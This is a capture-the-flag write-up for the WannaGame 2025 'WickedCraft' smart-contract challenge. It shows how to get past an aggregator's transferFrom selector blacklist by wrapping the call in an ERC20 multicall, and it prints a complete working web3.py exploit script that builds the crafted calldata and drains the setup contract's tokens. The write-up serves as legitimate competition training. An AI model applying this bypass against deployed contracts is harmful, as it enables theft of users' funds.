




# WannaGame Championship 2025 - WickedCraft Write-up



### Step 1: Analysis and Vulnerability Identification

We start by spawning an instance via `netcat` to get our RPC endpoint, private keys, and contract addresses.

```bash
nc challenge.cnsc.com.vn 30752
```



We are given the source code for three main contracts:
1.  **`Setup.sol`**: Holds the initial supply of tokens and approves the `Aggregator` to spend them infinitely.
2.  **`WannaCoin.sol`**: An ERC20 token that inherits `Multicall`.
3.  **`Aggregator.sol`**: A complex router that executes commands encoded in a custom byte format (Assembly/Yul).

**The Constraint:**
The `Aggregator` allows users to execute arbitrary calls via the `CommandAction.Call` operation. However, looking closely at `Aggregator.executeCommandCall`, we see a security check:

```solidity
case 0x23b872dd {
    // Blacklist transferFrom in custom calls
    // InvalidTransferFromCall
    revert(0, 4)
}
```
The aggregator **explicitly blacklists** the `transferFrom` function selector. We cannot simply ask the Aggregator to call `transferFrom` to move the funds.

**The Bypass:**
The `WannaCoin` contract inherits from `Multicall`. The `multicall` function allows batching calls. Since `multicall` has a different function selector (`0xac9650d8`), it is **not blacklisted** by the Aggregator.

**The Attack Path:**
1.  Construct a payload for `WannaCoin.transferFrom(Setup, WannaCoin, 10001)`.
2.  Wrap this payload inside a `WannaCoin.multicall(...)` call.
3.  Encode this into the complex byte format required by the `Aggregator.swap()` function to execute a "Call" command.

### Step 2: Constructing the Payload (The Hard Part)

The `Aggregator` parses `calldata` using manual assembly offsets. It requires specific headers, pointers to sequences, and pointers to data. Standard Solidity encoders (`abi.encode`) are often insufficient here because the Aggregator expects specific alignments (e.g., reading an address using `shr(96, load())` requires the address to be **Left-Aligned** in the 32-byte word).

We wrote a Python script using `web3.py` to manually construct the byte array.

**Key Technical Details implemented in the script:**
*   **Manual Offset Calculation:** We calculated absolute positions for Commands, Sequences, and Payloads to ensure pointers lead to valid data.
*   **Deadline Hack:** The Aggregator validates a timestamp. We manipulated the internal pointers to make the contract read a valid deadline (`0xff...ff`) from a controlled location.
*   **Command Placement:** To prevent the execution loop from crashing into the payload data, we placed the `Command` block at the very end of the `calldata`.
*   **Address Alignment:** We formatted the target address as `Address + 12 bytes of zeros` (Left-Aligned) so the assembly logic correctly interprets it.

### Step 3: The Exploit Script (`solve.py`)

Here is the complete solution script that builds the malicious payload and sends the transaction.

```python
from web3 import Web3

RPC_URL = "http://challenge.cnsc.com.vn:32313/704426a6-5629-430a-8dab-19a4b2ae30e5"
PRIV_KEY = "a15df1ebd0ccde436b748438d6e6bdadcf18a6beb91a2e8e5f1d4ba87de8e017"
SETUP_ADDR = "0x86E4582999D68c1d7582896F1cd70f454Eb5A590"

w3 = Web3(Web3.HTTPProvider(RPC_URL))
account = w3.eth.account.from_key(PRIV_KEY)
player = account.address
print(f"Player: {player}")

setup_abi = [
    {"inputs":[],"name":"aggregator","outputs":[{"type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"coin","outputs":[{"type":"address"}],"stateMutability":"view","type":"function"}
]
setup = w3.eth.contract(address=SETUP_ADDR, abi=setup_abi)
aggregator_addr = setup.functions.aggregator().call()
coin_addr = setup.functions.coin().call()
print(f"Coin: {coin_addr}")


transfer_data = bytes.fromhex("23b872dd") + \
                bytes.fromhex(SETUP_ADDR[2:].rjust(64, '0')) + \
                bytes.fromhex(coin_addr[2:].rjust(64, '0')) + \
                (10001 * 10**18).to_bytes(32, 'big')

mc_data = bytes.fromhex("ac9650d8") + \
          (32).to_bytes(32, 'big') + \
          (1).to_bytes(32, 'big') + \
          (32).to_bytes(32, 'big') + \
          len(transfer_data).to_bytes(32, 'big') + \
          transfer_data

if len(mc_data) % 32 != 0:
    mc_data += b'\x00' * (32 - (len(mc_data) % 32))

coin_target_fmt = bytes.fromhex(coin_addr[2:]) + b'\x00' * 12

REL_TARGET_PAYLOAD = 100
ABS_TARGET_PAYLOAD = 68 + REL_TARGET_PAYLOAD

REL_MC_PAYLOAD = 100 + 32
ABS_MC_PAYLOAD = 68 + REL_MC_PAYLOAD

len_mc = len(mc_data)
REL_SEQ_START = REL_MC_PAYLOAD + len_mc
ABS_SEQ_START = 68 + REL_SEQ_START

len_seq = 5
REL_CMD_START = REL_SEQ_START + len_seq

modifier = REL_CMD_START - 2
print(f"Calculated Modifier: {modifier}")

data = bytearray()
data += modifier.to_bytes(2, 'big') + b'\x00\x00'
data += b'\x00' * 60 + b'\x00\x00\x44\x00' + b'\xff' * 32

data += coin_target_fmt
data += mc_data

data += b'\x04' + ABS_MC_PAYLOAD.to_bytes(2, 'big') + len_mc.to_bytes(2, 'big')

data += b'\x00' + b'\x00\x00' + \
        ABS_SEQ_START.to_bytes(2, 'big') + \
        (ABS_SEQ_START + len_seq).to_bytes(2, 'big') + \
        ABS_TARGET_PAYLOAD.to_bytes(2, 'big')

print("Sending final exploit...")
agg_contract = w3.eth.contract(address=aggregator_addr, abi=[{'inputs': [{'internalType': 'bytes', 'name': '', 'type': 'bytes'}], 'name': 'swap', 'outputs': [{'internalType': 'uint256', 'name': 'amountOut', 'type': 'uint256'}], 'stateMutability': 'nonpayable', 'type': 'function'}])

tx_params = {'from': player, 'nonce': w3.eth.get_transaction_count(player), 'gas': 5000000, 'gasPrice': w3.to_wei('20', 'gwei')}

try:
    agg_contract.functions.swap(data).call(tx_params)
    print("[SIMULATION] Success! Sending transaction...")
except Exception as e:
    print(f"[SIMULATION] Failed: {e}")

tx = agg_contract.functions.swap(data).build_transaction(tx_params)
signed = w3.eth.account.sign_transaction(tx, PRIV_KEY)
tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
print(f"Tx Hash: {tx_hash.hex()}")

rec = w3.eth.wait_for_transaction_receipt(tx_hash)
if rec.status == 1:
    print("\n[SUCCESS] Exploit executed successfully!")
    print("Go to netcat -> option 3 -> get flag!")
else:
    print("\n[FAILED] Transaction reverted.")
```

### Step 4: Execution and Flag Capture

We run the script. It calculates the correct memory offsets, constructs the payload, and sends the transaction to the Aggregator.

```bash
python3 solve.py
```

The script successfully simulates and executes the transaction. The `Aggregator` calls `WannaCoin.multicall`, which internally calls `transferFrom`, moving the tokens despite the blacklist.



Finally, we return to the `netcat` session and select option `3` to verify the solution.



### Flag
`W1{thiS-iS_w1CK3DCrAft_CHAlI3ngE_fIaG24ac4}`